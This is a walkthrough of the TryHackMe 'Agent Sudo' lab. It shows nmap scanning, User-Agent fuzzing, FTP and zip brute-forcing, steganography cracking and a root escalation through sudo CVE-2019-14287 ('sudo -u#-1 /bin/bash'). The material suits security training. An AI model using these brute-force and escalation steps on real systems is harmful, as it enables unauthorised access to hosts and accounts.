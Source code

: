 ## THM CTF - Agent Sudo

We can start changing local DNS to easily handle all the process.

```
sudo nano /etc/hosts
```

Add the record:
```
xxx.xxx.xxx.xxx	   agent.thm
```

---

> <h3>How many open ports?</h3>

Now we can proceed with an Nmap scan.
```
sudo nmap -sS agent.thm -p-
```
We discovered three open ports, and we can list the services they provide.
```
sudo nmap -sS -T4 agent.thm -p21,22,80 -sV
```
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
All these info answers the first question.

---

> <h3>How you redirect yourself to a secret page?</h3>
> <h3>What is the agent name?</h3>


As we can see from the page:
```
http://agent.thm
```
We need a ```codename``` as ```user-agent``` or better ```HTTP User-Agent```.

Bash to create the file to use.
```
for letter in {A..Z}; do echo "$letter"; done > agents.txt
```

Using ```BurpSuite``` and its utility ```Intruder``` we can set a ```Sniper attack``` using ```User-Agent``` as variable and the list we just created.

We obtain two responses:
```
C:
We found an agent named "C" that report a special message for "J"

Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```

```
R:
What are you doing! Are you one of the 25 employees? If not, I going to report this incident 
```

<details><summary><i>As an alternative we can use Python to speed up the analysis.</i></summary>

```python
import requests

target_host = "http://agent.thm"
users_file = "/home/kali/Downloads/agents.txt"

session = requests.Session()
standard_response = session.get(target_host)

try:
    with open(users_file, 'r') as file:
        for users in file:
            headers={
                    "User-Agent": users.strip()
                }
            print(headers)
            response = session.get(target_host, headers=headers)

            if response.text != standard_response.text:
                print(headers)
                print(response.text)

except FileNotFoundError:
    print(f"File not found: {users_file}")

print('End of file')
```

</details>

This answer to the second and third question.

---

> <h3>FTP password</h3>
> <h3>Zip file password</h3>
> <h3>steg password</h3>
> <h3>Who is the other agent (in full name)?</h3>
> <h3>SSH password</h3>


Now that wee have at least a name, we can try an ```FTP brute force```, as ```Chris``` password seems to be weak.

```
sudo nmap -sS -T4 agent.thm -p 21 --script ftp-brute --script-args userdb=user_agent.txt passdb=/usr/share/wordlists/metasploit/unix_passwords.txt
```

We are able to find a password.

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
| ftp-brute: 
|   Accounts: 
|     chris:******* - Valid credentials
|_  Statistics: Performed 255 guesses in 47 seconds, average tps: 4.8
```

We can now access to the ```FTP service``` and download all three files which are located in the destination folder.

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

We analyse the files to determine if there is a secret message inside.
```
steghide info cute-alien.jpg
```
Bingo! We need to find the correct passphrase.

We can try a brute force with ```stegcracker```.
```
stegcracker cute-alien.jpg /usr/share/wordlists/rockyou.txt
```
After a while we find a compatible password obtaining the message.
```
Hi james,

Glad you find this message. Your login password is *************

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
However, it’s not compatible with the steg password requested. So, we’ll have to explore alternative options.

Analysing the other file with a simple.
```
strings cutie.png
```
we discover some text near the end. This implies some sort of code hidden inside the image. So we try
```
binwalk cutie.png
```
```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
And to extract the content.
```
binwalk -e cutie.png
```
So we are able to find a ```ZIP file``` but it is password protected.

We can try a ```brute-force attack``` with ```John The Ripper```.

We need to extract the hash.
```
zip2john 8702.zip
```
and we are ready to brute-force the password.
```
john ziphash.txt
```

The message hidden in the ```ZIP file``` is:

```
Agent C,

We need to send the picture to '*************' as soon as possible!

By,
Agent R
```
With the help of [CyberChef](https://gchq.github.io/CyberChef/) we can decode ```FromBase64 "*************"``` obtaining ```"*************"```, that is the real password for the steg file we cracked before.

---

> <h3>What is the user flag?</h3>
> <h3>What is the incident of the photo called?</h3>

Now we need to access via ```SSH``` using ```James``` credentials.
```
ssh james@agent.thm
```
In the home folder, we can find the user flag and a ```JPG``` that we need to analyse on our machine.
```
james@agent.thm:/home/james/Alien_autospy.jpg /home/kali/Downloads/agent_sudo/Alien_autopsy.jpg
```
We can do a reverse search on google and find that the image refer to ```Roswell Alien Autopsy```.

---

> <h3>CVE number for the escalation</h3>
> <h3>What is the root flag?</h3>
> <h3>(Bonus) Who is Agent R?</h3>

We can try some of the usual misconfiguration to escalate our privilege.
```
sudo -l
```
This command return something strange.
```
User james may run the following commands on agent-sudo:
(ALL, !root) /bin/bash
```
We can try to search if there is any vulnerability associated with:
```
(ALL, !root) /bin/bash
```

> The configuration (ALL, !root) /bin/bash in the sudoers file allows a user to run /bin/bash as any user except root. However, a vulnerability in sudo, CVE-2019-14287, allows users to bypass this restriction by using the command sudo -u#-1 /bin/bash, which effectively runs the command as root

So we can use:
```
sudo -u#-1 /bin/bash
```
And we are in as root! We can now easily find the root flag and the real name of Agent R!
